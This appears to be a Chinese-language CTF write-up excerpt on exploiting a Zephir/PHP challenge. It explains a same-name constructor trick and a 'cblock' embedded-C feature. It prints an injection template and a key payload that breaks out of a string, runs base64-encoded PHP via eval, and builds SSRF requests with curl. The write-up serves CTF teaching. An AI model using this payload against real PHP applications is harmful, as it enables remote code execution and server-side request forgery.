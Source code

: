 ## 利用

### SSRF

php 的构造函数可以和类同名，在创建类实例时自动调用。如果存在 `__construct` 函数便会覆盖这个同名构造函数。

因此可以构造一个同名构造函数进行调用。

```
http://xxx\\"}
public function <classname>(){
	payload
var ch=0;//");
```

由于 zephir 自己的语言能力较弱，所以考虑直接使用 eval 执行 php 代码，然后用 php-curl 构造 ssrf 数据包。

关键 payload：[from](https://github.com/wupco/rwctf2023-ASTLIBRA/blob/main/exploit.py)
```
payload = 'http;Lyo;$bd = base64_decode($this->getURL()); $bd = $bd[5].$bd[6].$bd[7].$bd; eval(base64_decode($bd));//\\");} public function test123456(){ eval(base64_decode(this->getURL())); var ch = curl_init();//%s' % code.decode()
```

![](https://cdn.silente.top/img/p2.png)

### cblock

`secure.patch` 中有一个 fix 注释掉了 cblock 内容，翻 Zephir github 才知道它其实[支持](https://github.com/zephir-lang/zephir/issues/654)使用 cblock 内嵌 c 代码，（但是官方文档里并没有相关的指南hh）

类似于这种例子：
```php
namespace Testcurl;
%{
#include <stdio.h>
#include <curl/curl.h>
}%
class Simple
{
    public static function version() -> string
    {
        string ver="";
        %{
            ZVAL_STRING(ver, curl_version(), 1);
        }%
        return ver;
    }
    public static function getUrlContent(string! url)
    {
        %{
            CURL *curl;
            CURLcode res;
            curl = curl_easy_init();
            if(curl) {
              curl_easy_setopt(curl, CURLOPT_URL, Z_STRVAL_P(url));
              curl_easy_setopt(curl, CURLOPT_FOLLOWLOCATION, 1L);
              res = curl_easy_perform(curl);
              curl_easy_cleanup(curl);
            }
        }%
    }
}
```
